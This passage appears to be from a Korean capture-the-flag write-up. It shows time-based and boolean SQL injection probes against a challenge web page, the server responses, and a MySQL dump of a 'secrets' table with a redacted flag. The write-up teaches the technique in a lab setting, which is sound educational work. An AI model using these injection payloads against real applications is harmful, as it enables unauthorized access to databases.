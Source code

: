     Time Based SQL Injection를 시도하면

    ``sleep(1000)``으로 인해 성공적으로 계속 로딩이 걸리게 됩니다.

+ #### 문제 풀이

    정확한 분석을 위해 다른 SQL 구문으로 테스트를 해본 결과

    ```
    ' or 1=1 -- '
    200 OK

    ' or 1=2 -- '
    500 Internal Server Error
    ```

    SQLi 구문이 참이면 웹 페이지가 작동하고 거짓이면 500 에러가 나는것을 볼 수 있습니다.

    아까 문제 파일에 있었던 dump.txt 를 보면

    ```sql
    -- MySQL dump 10.13  Distrib 8.0.23, for Linux (x86_64)
    --
    -- Host: localhost    Database: web_chall
    -- ------------------------------------------------------
    -- Server version	8.0.23
    
    /*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
    /*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
    /*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
    /*!50503 SET NAMES utf8mb4 */;
    /*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
    /*!40103 SET TIME_ZONE='+00:00' */;
    /*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
    /*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
    /*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
    /*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;
    
    --
    -- Table structure for table `secrets`
    --
    
    DROP TABLE IF EXISTS `secrets`;
    /*!40101 SET @saved_cs_client     = @@character_set_client */;
    /*!50503 SET character_set_client = utf8mb4 */;
    CREATE TABLE `secrets` (
      `type` varchar(100) DEFAULT NULL,
      `value` varchar(100) DEFAULT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_0900_ai_ci;
    /*!40101 SET character_set_client = @saved_cs_client */;
    
    --
    -- Dumping data for table `secrets`
    --
    
    LOCK TABLES `secrets` WRITE;
    /*!40000 ALTER TABLE `secrets` DISABLE KEYS */;
    INSERT INTO `secrets` VALUES ('flag','***REDACTED***');
    /*!40000 ALTER TABLE `secrets` ENABLE KEYS */;
    UNLOCK TABLES;
    